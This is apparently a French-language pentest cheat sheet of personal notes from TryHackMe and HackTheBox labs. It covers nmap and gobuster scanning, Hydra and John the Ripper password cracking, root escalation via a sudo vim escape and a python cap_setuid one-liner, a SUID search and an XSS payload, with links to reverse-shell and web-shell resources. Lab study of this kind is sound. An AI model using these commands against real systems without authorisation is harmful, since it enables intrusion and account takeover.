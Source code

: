 # (logo pentest) Pentest

## Pentest AD
[Pentest AD MAP](https://www.xmind.net/m/5dypm8/)

## Outils

### NMAP

Suffixes : 
* -sV : affiche la version des services existants sur les ports
* -sC : affiche les scripts par défaut qui sont activés sur les ports

Scan simple et rapide : 
* sudo nmap -sS -T5 <ip>

Exemples : 
* N°1 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)

    ```$ sudo nmap -sS -Pn -sV 10.10.188.70```

* N°2 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)

    ```$ sudo nmap -sS -sC 10.10.188.70```

### Gobuster

Source : [gobuster](https://www.le-hacking.fr/brute-force-url-gobuster/)

gobuster -h : ```$ gobuster dir -u http://[adresse IP]:[Port] -w [wordlists]```

Exemples :
<br/>```./gobuster dir -u http://10.10.52.129/ -w /usr/share/wfuzz/wordlist/general/common.txt```

### John2ripper

```$ john-the-ripper --wordlist=Outils/wordlist/rockyou.txt id_rsa_basic_hash.txt ```

Permet de retrouver la passphrase pour se connecter en ssh à un user particulier.

### Hydra 

-l = user
<br/>-L = userlist
<br/>-p = password
<br/>-P = passwordlist

```hydra -l test -P /home/petibonum/Outils/wordlist/rockyou.txt 10.10.11.100 ssh```

user = test
<br/>wordlist = rockyou.txt

[Source](https://linuxtrack.net/viewtopic.php?id=654)

### ADB connect 



[Source](https://labs.f-secure.com/blog/hackin-around-the-christmas-tree/)
## Méthodes
### Escalade de privilège

Exemple : 
* N°1 : TryHackMe -> [SimpleCTF Room](https://tryhackme.com/room/simplectf)

    <br/>```$ sudo -l```
    <br/>ans : User mitch may run the following commands on Machine:
    <br/>ans : (root) NOPASSWD: /usr/bin/vim
    <br/>```$ sudo vim -c ':!/bin/sh'```
    <br/>```# ^[[2;2R^[]11;rgb:3030/0a0a/2424^G```
    <br/>ans : /bin/sh: 1: ot found
    <br/>ans : /bin/sh: 1: 2R: not found
    <br/>```# whoami```
    <br/>ans : root

* N°2 : TryHackMe -> [BasicPentesting Room](https://tryhackme.com/room/basicpentestingjt)
    <br/>```ssh -i /home/<user>/.ssh/id_rsa kay@<ip>```
    <br/> Cette ligne permet de se connecter en ssh à un user par l'intermédiaire d'un autre user présent sur la même machine.

* N°3 : HackTheBox -> [CAP Room](https://app.hackthebox.eu/machines/Cap)

    <br/>```nathan@cap:~$ getcap -r / 2>/dev/null```
    <br/>ans : /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
    <br/>ans : /usr/bin/ping = cap_net_raw+ep
    <br/>ans : /usr/bin/traceroute6.iputils = cap_net_raw+ep
    <br/>ans : /usr/bin/mtr-packet = cap_net_raw+ep
    <br/>ans : /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
    <br/>```nathan@cap:~$/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
    <br/>ans : root@cap:~#
    C'est bon, on est root sur la machine.

### XSS payload

Exemple :

* N°1 : ```<script\x20type="text/javascript">javascript:alert(1);</script>```

[XSS Github](https://github.com/payloadbox/xss-payload-list)

### Reverse Shell

[Reverse Shell examples](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

### Recherche FIND spécifique

Rechercher des fichiers avec l'autorisation SUID :
<br/>```find / -user root -perm /4000 2>/dev/null```

## Autres Sources

    * [PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
    * [SUID vs CAPABILITIES](https://mn3m.info/posts/suid-vs-capabilities/)
    * [Linux Privilege Escalation](https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)
    * [Linux Privilege Escalation with Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)
    * [Reverse Shell - Synetis](https://www.synetis.com/etablir-un-reverse-shell-en-une-ligne/)
